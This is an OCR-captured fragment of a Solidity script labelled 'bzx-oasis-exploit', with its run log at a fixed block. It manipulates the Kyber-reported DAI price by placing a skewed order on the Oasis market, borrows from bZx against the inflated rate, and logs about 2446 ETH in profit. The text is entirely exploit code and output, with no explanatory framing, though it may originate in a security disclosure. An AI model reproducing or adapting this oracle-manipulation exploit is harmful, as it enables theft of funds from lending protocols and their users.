 ```javascript
    }
    
    uint constant rateCheckAmount = 1 ether;
    
    function checkRates() external {
        (uint rate, uint slippage) = KYBER_NETWORK.getExpectedRate(DAI, KYBER_ETH, rateCheckAmount);
        printf("checking rates tokens=%.18u rate=%.18u slippage=%.18u\n", abi.encode(rateCheckAmount, rate, slippage));
    }
    
    uint private id;
    
    uint constant daiBidAmount = 1 ether;
    uint constant ethOfferAmount = 10 ether;
    function makeOrder() external {
        WETH.deposit.value(ethOfferAmount)();
        WETH.approve(address(MATCHING_MARKET), ethOfferAmount);
        id = MATCHING_MARKET.offer(ethOfferAmount, WETH, daiBidAmount, DAI);
        printf("made order id=%u\n", abi.encode(id));
        
        require(MATCHING_MARKET.insert(id, 0));
    }
    
    function borrow() external {
        bytes32 hash = doBorrow(BZX_ETH, false, BZX_ETH.marketLiquidity(), WETH, DAI);
        printf("borrowing loanHash=%32x\n", abi.encode(hash));
    }
    
    function cleanup() external {
        require(MATCHING_MARKET.cancel(id));
        DAI.giveAllToUniswap();
        WETH.withdrawAll();
    }
    
    function checkProfits() external {
        printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
    }
    
    function borrowInterest(uint amount) internal {
        WETH.deposit.value(amount)();
    }
    
    function borrowCollateral(uint amount) internal {
        DAI.getFromUniswap(amount);
    }
}

/*
### running script "bzx-oasis-exploit" at block 8455720
#### executing step: exploit
##### calling: checkRates()
checking rates tokens=1.000000000000000000 rate=0.005950387240736517 slippage=0.005771875623514421
##### calling: makeOrder()
made order id=414191
##### calling: checkRates()
checking rates tokens=1.000000000000000000 rate=9.975000000000000000 slippage=9.675750000000000000
##### calling: borrow()
collateral_required=398.831304885561111810, interest_required=203.458599916962956188
borrowing loanHash=0x947839881794b73d61a0a27ecdbe8213f543bdd4f4a578eedb5e1be57221109c
##### calling: cleanup()
##### calling: checkProfits()
profits=2446.376892708285686012
```